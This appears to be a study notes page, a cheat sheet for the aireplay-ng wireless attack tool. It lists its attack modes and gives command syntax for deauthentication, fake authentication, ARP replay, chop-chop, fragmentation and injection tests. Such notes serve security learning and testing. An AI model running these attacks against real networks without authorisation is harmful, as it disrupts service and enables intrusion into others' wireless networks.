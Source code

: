 ### Aireplay-ng
---
Use to generate wireless traffic, as well as packet replays, de-auth attack, Chop-Chop attack, etc. See [aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)for the detailed documentation.

###### Supported Attack:
| Attack # | Attack Name                          |
| -------- | ------------------------------------ |
| 0        | Deauthentication                     |
| 1        | Fake Authentication                  |
| 2        | Interactive Packet Replay            |
| 3        | ARP Request Replay Attack            |
| 4        | KoreK ChopChop Attack                |
| 5        | Fragmentation Attack                 |
| 6        | Café-Latte Attack                    |
| 7        | Client-Oriented Fragmentation Attack |
| 8        | WPA Migration Mode Attack            |
| 9        | Injection Test                       |
> [!tip]  
> Only 0 & 9 are most relevant to WPA attacks. Others are all for WEP.

### Syntax for Selected Attacks
---
##### 0. De-authentication Attack
###### De-auth Attacks:
```sh
sudo aireplay-ng -0 <number> -a <AP bssid> -c <Target Client bssid> wlan0mon
```
- `--deauth` or `-0` for specifying de-auth attack. The number following the option indicates the number of de-auth packets to be sent.
	- E.g., For `--deauth 70`, the network will be disconnected for 70 seconds.
- `-c` for specifying a client device. If not specified, then all devices will be disconnected.

##### 1. Fake Authentication Attack
###### Fake authentication Attack:
Some attacks required an associated MAC address of a client. If no clients are connected to the AP, we would need to associate with the AP ourself to perform packet injection.

To associate our MAC to the AP, we can perform a fake-auth attack:
```sh
sudo aireplay-ng -1 <number> -q 10 -a <AP bssid> -h <Our wlan0mon MAC> wlan0mon
```
- `--fakeauth` or `-1` for specifying fake-auth attack. The number following the option indicates the number of fake-auth packets to be sent.
- `-q` to specify seconds between sending keep-alives (-1) messages.

##### 3. ARP Request Replay Attack
###### ARP-request replay Attack:
This will generate a huge amount of ARP packets for cracking.
``` sh
sudo aireplay-ng -3 -b [AP bssid] -h [Target Client MAC] wlan0mon
```
- Requires the MAC address of a connected client.

##### 4. KoreK ChopChop Attack
###### Chop chop Attack:
```sh
sudo aireplay-ng -4 -b <AP bssid> -h <Our wlan0mon MAC> wlan0mon
```
- Respond with `Y` when an ARP packet is found to use the packet.
- This will generate a XOR file (Decipher key) from the packet.

##### 5. Fragmentation Attack
###### Fragmentation Attack:
```sh
sudo aireplay-ng -5 -b <AP bssid> -h <Our wlan0mon MAC> wlan0mon
```
- Aternative of Chop chop attack
- Always respond with `Y`.
- This will generate a XOR file (Decipher key) from the packet.

##### 9. Injection Test

###### Basic Injection Test (Single Card Injection):
```sh
sudo aireplay-ng wlan0mon -9
```
- To test if we can successfully inject packets into the AP.

To specify ESSID & BSSID:
```sh
sudo aireplay-ng wlan0mon -9 -e <AP essid> -a <AP bssid>
```
- Add `-D` to disable AP detection.

###### Card-to-Card Injection Test:
(Requires 2 wireless card in monitor mode.)
```sh
sudo aireplay-ng -9 -i wlan1mon wlan0mon
```
- This is a more robust injection test that can confirm our injecting frames are correctly sent.
- This will also show us what attacks can be performed.